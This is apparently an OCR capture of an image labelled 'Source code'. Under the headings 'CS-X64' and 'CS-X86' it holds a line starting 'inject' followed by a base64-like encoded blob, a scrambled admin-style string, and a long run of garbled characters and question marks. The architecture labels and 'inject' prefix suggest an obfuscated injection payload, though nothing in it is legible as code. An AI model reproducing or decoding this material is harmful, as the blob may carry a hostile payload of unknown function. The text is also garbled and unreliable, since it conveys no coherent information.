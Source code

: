 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

wersf3?4|2????,????X??;??6,k??;10,???T;14,?F??;18?,p;????22?,1???;26???,S??;30,??U;?3??4,X????;38???,s??;42,S??;?46,i?;????50,Z;????54,???0;58,?R????;???62,S???;??66,Z;????70????,L;7????4,p???;78,???r;82??,????K???;86?,8;9?0,????1;9????4??,C;9??8,???t;10??2,U???;????10???6,%;????110,4?;??11??4?,l;11?8????,D??;122???,X?;12???6,n;????130?,T?;????13??4,I;|??h???ArX?C0??hk?6mlT??9YYFx???yC??p????zU210???LASv?hI??Ux????Dn???XC??LMsVn???BSrN????Li???NB?qZ????yU2????0T9???lR10??5Sg?DvZDZ????eLVnD???p5w0????rwl???vKzUY????8???09z1n???x0C3?ljt?zLN??UVmA%??vg?H4h???zml?B???VwD?PfBX9???ITnxE?r????TCL3I???=qthrcvs
